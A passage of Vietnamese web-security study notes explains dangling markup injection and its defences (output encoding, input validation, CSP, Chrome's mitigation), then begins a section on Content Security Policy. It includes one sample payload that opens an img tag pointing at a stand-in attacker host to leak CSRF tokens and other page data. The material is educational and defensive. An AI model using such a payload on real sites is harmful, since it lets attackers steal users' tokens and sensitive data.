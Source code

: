 ```
">
```

Trong tình huống này, kẻ tấn công sẽ thường thử thực hiện XSS. Nhưng giả sử XSS thông thường **không khả thi** do các bộ lọc đầu vào, CSP, hoặc các biện pháp khác. Khi đó, vẫn có thể thực hiện một tấn công **dangling markup injection** với payload như sau:

```html
"><img src='//attacker-website.com?
```

Payload này tạo ra một thẻ `<img>` và định nghĩa thuộc tính `src` trỏ đến một URL trên server của kẻ tấn công. Lưu ý rằng payload **không đóng thuộc tính `src`**, khiến nó bị “dangling”. Khi trình duyệt phân tích response, nó sẽ tiếp tục đọc cho đến khi gặp dấu nháy `'` để kết thúc thuộc tính. Mọi thứ trước dấu đó sẽ được coi là một phần của URL và được gửi đến server của kẻ tấn công dưới dạng query string. Tất cả ký tự không phải chữ-số (bao gồm cả xuống dòng) sẽ được URL-encode.

**Hệ quả**: Kẻ tấn công có thể thu thập được một phần dữ liệu của ứng dụng xuất hiện sau điểm injection, và dữ liệu này có thể chứa thông tin nhạy cảm, chẳng hạn như **CSRF token, email, hoặc dữ liệu tài chính**.

Bất kỳ thuộc tính HTML nào có khả năng tạo request ra bên ngoài đều có thể được lợi dụng cho **dangling markup injection**.

Lab tiếp theo khó hơn vì tất cả request ra ngoài đều bị chặn. Tuy nhiên, vẫn có một số thẻ cho phép lưu trữ dữ liệu và trích xuất từ server bên ngoài sau này. Việc giải lab có thể yêu cầu **sự tương tác từ người dùng**.

## Phòng tránh
Bạn có thể ngăn chặn các cuộc tấn công **dangling markup** bằng các biện pháp phòng thủ tương tự như khi ngăn chặn **cross-site scripting (XSS)**, cụ thể là:

- **Mã hóa dữ liệu khi xuất ra (output encoding)**.
- **Kiểm tra và xác thực dữ liệu đầu vào (input validation)** ngay khi nhận được.

Ngoài ra, bạn cũng có thể giảm thiểu một số cuộc tấn công dangling markup bằng **Content Security Policy (CSP)**. Ví dụ, có thể ngăn chặn một số (nhưng không phải tất cả) cuộc tấn công bằng cách đặt chính sách chặn các thẻ như `<img>` tải tài nguyên từ bên ngoài.

> **Lưu ý**
> 
> 
> Trình duyệt **Chrome** đã quyết định xử lý tấn công dangling markup bằng cách **ngăn các thẻ như `<img>` định nghĩa URL chứa các ký tự thô (raw characters)**, chẳng hạn như dấu ngoặc nhọn `< >` hoặc ký tự xuống dòng. Điều này giúp ngăn chặn tấn công vì dữ liệu mà kẻ tấn công muốn thu thập thường chứa các ký tự này, khiến payload bị chặn.
> 

# CSP

## Khái niệm

CSP là một cơ chế bảo mật của trình duyệt nhằm giảm thiểu XSS và một số cuộc tấn công khác. Cơ chế này hoạt động bằng cách hạn chế các tài nguyên (như script và hình ảnh) mà một trang có thể tải, và hạn chế việc một trang có thể bị nhúng (framed) bởi các trang khác hay không.

Để bật CSP, response cần bao gồm HTTP header có tên **Content-Security-Policy** với giá trị là chính sách (policy). Bản thân policy bao gồm một hoặc nhiều **chỉ thị (directive)**, được phân tách bằng dấu chấm phẩy.

## Giảm tấn công XSS
